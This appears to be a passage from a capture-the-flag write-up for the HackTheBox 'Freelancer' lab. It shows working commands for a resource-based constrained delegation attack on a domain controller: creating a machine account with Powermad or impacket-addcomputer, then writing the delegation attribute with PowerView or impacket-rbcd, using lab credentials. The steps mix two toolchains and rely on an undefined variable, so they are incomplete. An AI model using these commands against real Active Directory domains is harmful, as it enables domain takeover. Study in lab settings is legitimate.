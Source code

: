 AD RECYCLE BIN has <mark style="color:orange;">**GenericWrite**</mark> permissions on the DC machine.

Create a machine account using Powermad:

{% code overflow="wrap" %}
```powershell
New-MachineAccount -MachineAccount hackmachine -Password $(ConvertTo-SecureString 'Password#' -AsPlainText -Force) 
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (811).png" alt=""><figcaption></figcaption></figure>

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we’re taking over, again using PowerView in this case:

{% code overflow="wrap" %}
```powershell
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{‘msds-allowedtoactonbehalfofotheridentity’=$SDBytes} 
```
{% endcode %}

First create a new machine (grab the computer name and password output):

{% code overflow="wrap" %}
```bash
impacket-addcomputer freelancer.htb/lorra199:'PWN3D#l0rr@Armessa199' -dc-ip 10.10.11.5
```
{% endcode %}

Then delegate the newly created machine to the DC, allowing the delegated machine to impersonate any user to operate the target machine under certain conditions.

{% code overflow="wrap" %}
```bash
impacket-rbcd -delegate-from 'DESKTOP-68XXCRS9$' -delegate-to 'dc$' -dc-ip 10.10.11.5 -action write freelancer.htb/lorra199:'PWN3D#l0rr@Armessa199'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (814).png" alt=""><figcaption></figcaption></figure>
